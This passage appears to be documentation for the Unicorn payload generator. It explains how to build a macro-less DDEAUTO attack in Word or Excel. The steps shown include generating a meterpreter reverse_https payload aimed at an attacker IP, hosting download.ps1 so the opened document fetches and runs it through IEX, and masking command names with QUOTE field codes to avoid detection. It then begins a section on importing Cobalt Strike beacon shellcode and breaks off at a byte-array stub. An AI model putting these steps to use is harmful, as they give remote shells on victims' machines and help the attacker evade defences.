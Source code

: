 This attack vector will generate the DDEAUTO formulate to place into Word or Excel. The COM object 
DDEInitilize and DDEExecute allow for formulas to be created directly within Office which causes the
ability to gain remote code execution without the need of macros. This attack was documented and full
instructions can be found at:

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

In order to use this attack, run the following examples:

    python unicorn.py <payload> <lhost> <lport> dde
    python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde

Once generated, a powershell_attack.txt will be generated which contains the Office code, and the
unicorn.rc file which is the listener component which can be called by msfconsole -r unicorn.rc to
handle the listener for the payload. In addition a download.ps1 will be exported as well (explained
in the latter section).

In order to apply the payload, as an example (from sensepost article):

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn
7. Save the Word document.

Once the office document is opened, you should receive a shell through powershell injection. Note
that DDE is limited on char size and we need to use Invoke-Expression (IEX) as the method to download.

The DDE attack will attempt to download download.ps1 which is our powershell injection attack since
we are limited to size restrictions. You will need to move the download.ps1 to a location that is
accessible by the victim machine. This means that you need to host the download.ps1 in an Apache2
directory that it has access to.

You may notice that some of the commands use "{ QUOTE" these are ways of masking specific commands
which is documented here: http://staaldraad.github.io/2017/10/23/msword-field-codes/. In this case
we are changing WindowsPowerShell, powershell.exe, and IEX to avoid detection. Also check out the URL
as it has some great methods for not calling DDE at all.

###                -----Import Cobalt Strike Beacon----

This method will import direct Cobalt Strike Beacon shellcode directly from Cobalt Strike.

Within Cobalt Strike, export the Cobalt Strike "CS" (C#) export and save it to a file. For example, call 
the file, cobalt_strike_file.cs. 

The export code will look something like this:

* length: 836 bytes */
byte[] buf = new byte[836] { 0xfc, etc
